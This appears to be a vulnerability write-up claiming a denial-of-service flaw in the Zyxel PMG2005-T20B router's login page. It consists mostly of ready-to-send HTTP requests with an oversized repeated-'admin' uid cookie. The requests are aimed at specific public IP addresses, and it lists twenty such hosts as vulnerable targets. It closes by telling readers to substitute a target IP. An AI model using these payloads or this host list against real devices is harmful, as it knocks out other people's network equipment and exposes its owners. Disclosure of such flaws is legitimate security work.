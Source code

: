 # Rumble
ZYXEL-PMG2005-T20B has a denial of service vulnerability
Zyxel is a leading global provider of comprehensive communication and information solutions, providing innovative technology and product solutions for telecom operators, government and enterprise customers, and consumers worldwide. ZYXEL-PMG2005-T20B has a denial of service vulnerability. Attackers can exploit this vulnerability to cause the browser to crash.


The following are the details of the vulnerability:
1.Vulnerability Address：http://177.221.16.243/cgi-bin/login.asp
Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 177.221.16.243
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://177.221.16.243/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close

Browser crashes after execution
2.Vulnerability Address：http://179.191.53.240/cgi-bin/login.asp
Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 179.191.53.240
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://179.191.53.240/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close



Browser crashes after execution
3.
Vulnerability Address：http://179.191.53.133/cgi-bin/login.asp

Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 179.191.53.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://179.191.53.133/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close


Browser crashes after execution


4.
Vulnerability Address：http://177.221.17.76/cgi-bin/login.asp
Request Package：
GET /cgi-bin/index.asp HTTP/1.1
Host: 177.221.17.76
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://177.221.17.76/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close

Browser crashes after execution

5.Vulnerability Address：http://187.111.205.144/cgi-bin/login.asp
6.Vulnerability Address：http://179.191.53.138/cgi-bin/login.asp
7.Vulnerability Address：http://187.111.205.157/cgi-bin/login.asp
8.Vulnerability Address：http://189.36.156.42/cgi-bin/login.asp
9.Vulnerability Address：http://179.191.53.15/cgi-bin/login.asp
10.Vulnerability Address：http://45.182.161.27/cgi-bin/login.asp
11.Vulnerability Address：http://45.182.161.46/cgi-bin/login.asp
12.Vulnerability Address：http://45.182.161.42/cgi-bin/login.asp
13.Vulnerability Address：http://45.182.161.47/cgi-bin/login.asp
14.Vulnerability Address：http://45.182.161.43/cgi-bin/login.asp
15.Vulnerability Address：http://45.182.161.25/cgi-bin/login.asp
16.Vulnerability Address：http://179.191.53.89/cgi-bin/login.asp
17.Vulnerability Address：http://179.107.195.230/cgi-bin/login.asp
18.Vulnerability Address：http://45.182.161.41/cgi-bin/login.asp
19.Vulnerability Address：http://45.182.161.33/cgi-bin/login.asp
20.Vulnerability Address：http://45.182.161.45/cgi-bin/login.asp
Request package is：
GET /cgi-bin/index.asp HTTP/1.1
Host: IP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://IP/cgi-bin/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:SESSIONID=4450a48a; uid=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin; psw=1234
Connection: close

Replacing the above two IPs with the target IP can cause the browser to crash

